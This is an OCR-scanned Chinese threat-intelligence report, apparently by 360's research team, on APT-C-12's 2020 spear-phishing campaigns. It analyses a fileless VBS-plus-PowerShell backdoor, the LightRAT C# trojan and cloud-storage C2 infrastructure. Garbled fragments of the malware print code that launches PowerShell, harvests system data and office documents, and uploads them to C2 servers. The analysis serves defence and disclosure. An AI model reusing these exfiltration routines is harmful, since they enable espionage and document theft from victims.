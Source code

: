 # 蓝宝菇（APT-C-12）组织使用云存储技术发起的最新攻击活动披露  

收录于话题#蓝宝菇  

蓝宝菇（APT-C-12）组织从2011年开始持续至今，长期对国内国防、政府、科研、金融等重点单位和部门进行了持续的网络间谍活动，该组织主要关注核工业和科研等相关信息。2018年7月，我们发布了《蓝宝菇-核危机行动揭秘》报告（点击“阅读原文"查看报告），在披露了该组织相关网络间谍活动之后，蓝宝菇组织的攻击频次有所下降，但未完全停歇。继而采用了针对关键目标进行短期集中攻击的闪电战策略，如18年11月针对驻外使馆、19年3月针对某科研机构等相关攻击事先都进行了周密计划，达成后快速隐匿蛰伏。  

2020年初，在新冠疫情给全球格局带来新的冲击影响下，各APT组织针对国内的攻击活动异常活跃。蓝宝菇组织也蠢蠢欲动，相关攻击活动逐渐频繁。通过360安全大脑的遥测，我们发现该组织针对国内某重点机构的两次攻击活动中升级了技战术，开始使用云存储技术架设C2基础设施。本报告将披露该组织最新的攻击手法和网络武器。  

## 完整攻击流程分析  

蓝宝菇（APT-C-12）组织在近期的攻击中针对重点目标继续沿用了主流的鱼叉邮件攻击方式,恶意荷载主要以 ${}^{4}\setminus\ensuremath{\mathbb{B}}\ensuremath{\mathrm{S}}+$ PowerShell"无文件攻击和LightRAT木马两种形式出现。值得注意的是蓝宝菇（APT-C-12）组织开始首次使用云存储服务形式进行命令控制。  

·该组织的无文件攻击方式在压缩包附件中通常会包含一个vbs脚本和PowerShell后门程序，这种攻击手法该组织最早在19年底使用过。  
·Light RAT是该组织未被披露的最新后门程序，使用C#语言开发  

![](https://cdn-mineru.openxlab.org.cn/extract/fa42d836-fd03-4e56-8dc5-fc80cced7d44/7c0167ff951704d8cc3d0185b14fc5ce88ba993e576502c4f1a2e8ee7c150713.jpg)  

## 无文件攻击分析  

360安全大脑在9月捕获到了该组织最新的无文件攻击样本，恶意荷载是VBS+PowerShelIl的形式。下图为vbs脚本的文件内容,主要功能为执行同目录下的powershell后门。  

a ${}={}$ createobject("Scripting.FileSystemObject").GetFile(Wscript.ScriptFullName).ParentFolder.Path   
set c = Create0bject("Wscript.Shell")   
$\flat=$ a & "\3457aa29a94b10654d0963e5dd819c3457aa29a94b10654d0963e5dd819   
ca9b9ada091e19d02a6e0c0f10039b8da93457aa29a94b10654d0963e5dd819ca9b9a   
da091e19d02a6e0c0f10039b8db21b9ada091e19d02a6e0c0f10039b8db21 [ps1"   
c.run "cmd /c powershell -ExecutionPolicy Unrestricted -noprofile -noninteractive -file " & """" & b & """", c.run("explorer.exe" & a &"\有关发展'….…….  

Powershell后门主要负责窃取目标计算机信息和office文件信息，加密后上传到攻击者的C2服务器。  

获取的信息有计算机系统信息，进程列表，ip信息，计算机名等等。将信息数据发送到C2如下路径：https://c2//upload//date//_threeswordsmen//start.log。  

该路径中的目录被命名为threeswordsmen，该命名源自经典武侠电影“刀剑笑"(TheThrerSwordsmen)的英文片名，后门作者习惯使用港台电影的相关词汇命名关键代码，从侧面也暴露了后门作者的母语和地域。  

Sc="https:mI';   
\$4="upload/"+(Get-Date -f yMMddhmmss)+"_threeswordsmen";   
\$SystemInfo=[Text.Encoding]::UTF8;   
\$g=[Text.Encoding]::UniCode;   
sendData "\$c/\$4/start.log" "" \$SystemInfo.GetBytes("\$(Get-Date)'r'nhost name: \$(hostname)'r'ntask list: \$((ps|%[\$_.processname})  

使用32位随机数，利用rsa加密后，使用base64编码，并发送到C2，此动作疑似是使用产生的数据对用户计算机进行标注。  

\$7=[char[]]'0123456789ABCDEF'|get-random -c 16;   
\$5=[char[]](48..57+65..90+97..122)Iget-random -c 16;   
\$d=new-object security.cryptography.aesmanaged;   
\$d.padding="Zeros";   
\$d.blocksize=128;   
\$d.keysize=128;   
\$d.key=\$5;   
\$d.IV=\$5;   
\$d.Mode='CBC';   
SRSAEncrypt=new-object security.cryptography.rsacryptoserviceprovider(1024);   
SRSAEncrypt.fromxmlstring('<RSAKeyValue><Modulus>weYx4nk/7aW2oADvmSA35VFGJVJ2ivbp7HZDWaQRCKXLtIoy1TNzcieX+CqHOzkPTLB1tMOvniaLNATQagzsrH SendData "\$c/\$4/id.cab" "" (pGZip SSystemInfo.getbytes([convert]:tobase64string(\$RSAEncrypt.encrypt(\$SystemInfo.getbytes(-join (\$7+\$5)  

随后开始窃密用户的office类的文档信息，主要关注的文档类型有.doc，.docx，.pdf，.ppt,.pptx,.xls，.xlsx，.ps1，.cpp，.eml，js,.html，.cs。  

获取文档的文件名，文件修改时间等信息后使用gzip压缩后发送到C2的如下路径https://c2//upload//date//_threeswordsmen//Mid.cab。  

Sy=(('.doc','.docx','.pdf'),('.ppt','.pptx','.xls',.xlsx','.ps1','.cpp'),('.eml','.js','.html','.cs'));   
Functionse8(\$8) \$e=180; \$t=1; \$RSAEncrypt=0; \$5=(Get-Date -f yyyMMddhhmmss)+" r' nWeek:'r'n"; \$w=0; \$p=@(); \$p+=gdr -p 'fi\*'|?{\$_.root -ne "\$env:systemdrive\"}|%[gci -fo -erroraction silentlycontinue \$_.root]; \$p+=gci -fo "\$env:systemdrive\users"; \$p+=gci -fo "\$env:systemdrive\"|?{\$_.fullname -notlike "\*:\Windows\*'-and \$_.fullname -notlike '\*:\Users'-and \$_.fullname -notlike \$p=\$plsort lastwritetime -des|%{\$ .fullname}l?f\$ };  

最后，窃取 %appdata%/Microsoft/Windows/Recent目录下的文件内容，并发送至C2。  

while(\$True) sleep -s 50000; \$SystemInfo="upload/"+(Get-Date -f yyyyMMddhhmmss)+"_threeswordsmen"; $\$0=1$ $\$1m=0$ gci "\$env:appdata\Microsoft\Windows\Recent\" -fo -errora silentlycontinuel ?{(\$y[0]+\$y[1]) -contains [io.path]::getextension(\$_.basename) -and \$_.LastWriteTime -ge (Get-Date).AddDays(-1)}l%{gi ((new-object -com wscript.shell). createshortcut(\$_.fullname)).targetpath -fo -errora silentlycontinue}|%{\$0= ReadDataandSend \$_ \$m θ \$o \$SystemInfo; $\$10=5$ .Length; If(\$0.endswith("oK\`r\`n")) \$o+=1 7  

样本中的rsapublickey以xML格式保存。<?xml version="1.o" encoding="utf-8"?>  

<RSAKeyValue> <Modulus>WeYx4nk/7aW2oADvm5A35VFGJVJ2ivbp7HZDWaQRCKXLtIoy1TNzCieX+CqH0zkP TLB1tMQvniaLNATQ0gzsrHLDxnY4uFiD5FUv4BQSE96m1758LeFE00QwD93QzA39IE/ /Ghx90 9kTWuI4TmEn3S60W6uDjBd7+J0S5XrzPsE=</Modulus> <Exponent>AQAB</Exponent>   
</RSAKeyValue>  

![](https://cdn-mineru.openxlab.org.cn/extract/fa42d836-fd03-4e56-8dc5-fc80cced7d44/4e6f4b79ca5ae3b823957615c139fa0f9b9dd53a92cfafc23c5a168841b77772.jpg)  

## 最新LightRAT木马分析  

2020年8月，360安全大脑在蓝宝菇组织的一次攻击活动中，捕获到了该组织未被披露的最新后门程序，被攻击目标涉及国内军工产业重点单位，因木马程序中的pdb（C:\Users\user\Desktop\Light\Light\obj\x86\Release\Light.pdb ）路径，我们 将其命 名 为 LightRAT。  

在我们捕获到的利用Light RAT攻击活动中，攻击者直接投递了包含Light RAT可执行文件的恶意附件，诱导目标用户点击执行。Light RAT为C#语言编写的后门程序，主要功能为窃取目标计算机信息，搜集指定特定后缀的文件传送至C2。  

后门程序首先会复制office 的模板文件到指定目录，并打开相应的目录，以迷惑目标用户。  

string text3 $=$ environmentVariable2 $^+$ "\\documents\\" $^{+}$ text;   
if (!Directory.Exists(text3)) Directory. CreateDirectory (text3) ; string text4 $=$ environmentVariable $^+$ "\\Microsoft\\Templates\\Normal. dotm"; if (File.Exists(text4)) File.Copy(text4, text3 $^+$ "\\" + text $^+$ ". dot"); else File.CreateText(text3 + "\\" + text + ". dot");  

Process. Start (text3) ;  

![](https://cdn-mineru.openxlab.org.cn/extract/fa42d836-fd03-4e56-8dc5-fc80cced7d44/5bd4a873399e4f48853d7f18ce6d317f816889f436b7d61724334f3401bb1834.jpg)  

然后获取目标计算机进程信息，计算机名、计算机用户名等信息。  

![](https://cdn-mineru.openxlab.org.cn/extract/fa42d836-fd03-4e56-8dc5-fc80cced7d44/9dbf708aa7d54dc4f0e430de6eca5445d596118b8c2d257dc790ecb9e17d6451.jpg)  

获取Recent目录下文件信息以及%Desktop%目录下指定文件后缀的文件信息，包括doc，docxppt，pptx，pdf，xls，xlsx后缀的文件。  

![](https://cdn-mineru.openxlab.org.cn/extract/fa42d836-fd03-4e56-8dc5-fc80cced7d44/6332799785b3402a775a9d64a2132b120a72823ecbea108e9a4f13e7daae14d5.jpg)  

搜集完所有文件和信息之后上传至C2  

string text7 $\underline{{\underline{{\mathbf{\delta\pi}}}}}$ "http://" $^+$ IPAddress. Parse(. . ToStringO).ToStringO + ":.  /good/";   
Random random $=$ new Random O) ;   
text7 $\underline{{\underline{{\mathbf{\delta\pi}}}}}$ text7 $^{+}$ text2 $^+$ random. Next (1000, 30000). ToString O ;   
try HttpWebRequest httpWebRequest $\underline{{\underline{{\mathbf{\delta\pi}}}}}$ (HttpWebRequest) WebRequest. Create(text7) ; httpWebRequest. Method $\begin{array}{r l}{=}&{{}^{\prime\prime}\mathsf{P U T}^{\prime\prime}}\end{array}$ byte[] bytes3 $=$ Encoding. UTF8. GetBytes (text5) ; httpWebRequest. ContentLength $=$ (long)bytes3. Length; using (Stream requestStream $=$ httpWebRequest. GetRequestStream O) requestStream. Write (bytes3, 0, bytes3. Length) ; 1 httpWebRequest. GetResponse () ;  

### $\diamond$ C2基础设施分析  

在APT-C-12的两次攻击活动，均存在文件信息以及文件上传的操作，我们发现攻击者使用了开源云盘系统和云对象存储系统搭建C2基础设施，相关的云服务如下图所示。  

![](https://cdn-mineru.openxlab.org.cn/extract/fa42d836-fd03-4e56-8dc5-fc80cced7d44/545e7d29cde905dda410b234d6f23d545bfc90ab32aaf4862e08d68f150d1b5f.jpg)  

这是蓝宝菇（APT-C-12）组织首次使用私有的云存储服务器进行命令控制，利用相关服务收集中招用户的信息、文件，以及分发恶意软件。  

在相关样本代码中可以看到，其使用了各类云服务应用经常使用的对象存储方式传送文件，以PUT请求利用pre-signed URLs来进行上传操作，这样所有文件传输都伪装成了正常的云存储服务请求，在一定情况下可以躲避异常的网络流量识别。  

![](https://cdn-mineru.openxlab.org.cn/extract/fa42d836-fd03-4e56-8dc5-fc80cced7d44/aa4f1678ff6533a0d006f0e8c5b936bf2438fb98014e907e8f39b9a8e011d95a.jpg)  

# 360高级威胁研究院  

360高级威胁研究院是360政企安全集团的核心能力支持部门，由360资深安全专家组成，专注于高级威胁的发现、防御、处置和研究，曾在全球范围内率先捕获双杀、双星、噩梦公式等多起业界知名的0day在野攻击，独家披露多个国家级APT组织的高级行动，赢得业内外的广泛认可，为360保障国家网络安全提供有力支撑。  

文章已于2020-10-14修改  